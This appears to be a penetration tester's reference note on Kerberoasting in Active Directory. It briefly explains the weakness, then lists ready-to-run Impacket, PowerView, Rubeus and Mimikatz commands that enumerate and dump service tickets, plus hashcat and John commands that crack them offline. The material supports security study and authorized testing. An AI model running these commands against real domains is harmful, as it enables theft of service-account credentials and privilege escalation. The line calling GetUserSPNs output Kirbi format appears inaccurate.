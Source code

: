 #AD #Attack 
## Info

- **Type:** Credential Extraction / Privilege Escalation
- **Common Usage:** Extract and crack **service account hashes** from Active Directory (AD).
- **Vulnerability:** AD allows **any domain user** to request **service tickets (TGS)** for **service accounts**. If the service account has a **weak password**, the ticket can be cracked offline to recover plaintext credentials.
- **Requires:** A **valid domain user** account.
- **CVE:** No specific CVE; this is a **legitimate feature** of Kerberos that attackers abuse.
## Identifying Kerberoastable Accounts

### Impacket's `GetUserSPNs`

```bash
impacket-GetUserSPNs $DOMAIN/$USER:$PASSWORD -dc-ip $IP
```

- Finds **service accounts** with **Kerberos SPNs**.

### PowerView (Windows)

```powershell
# Find all user accounts with an SPN (potentially Kerberoastable)
Get-NetUser -SPN
```

### Rubeus (Windows)

```powershell
Rubeus.exe kerberoast
```

## Requesting & Dumping Service Tickets

### With [[Impacket]]

```bash
impacket-GetUserSPNs $DOMAIN/$USER:$PASSWORD -dc-ip $IP -request
```

- Retrieves **TGS tickets** in **Kirbi** format.

### With Rubeus

```powershell
Rubeus.exe kerberoast /outfile:hashes.txt
```

### Using Mimikatz

```powershell
Invoke-Mimikatz -Command '"kerberos::list /export"'
```

## Cracking Kerberos Hashes

### With Hashcat

```bash
hashcat -m 13100 hashes.txt /path/to/wordlist
```

- `-m 13100`: Kerberos 5 TGS-REP Hashes

### With John the Ripper

```bash
john --format=krb5tgs --wordlist=/path/to/wordlist hashes.txt
```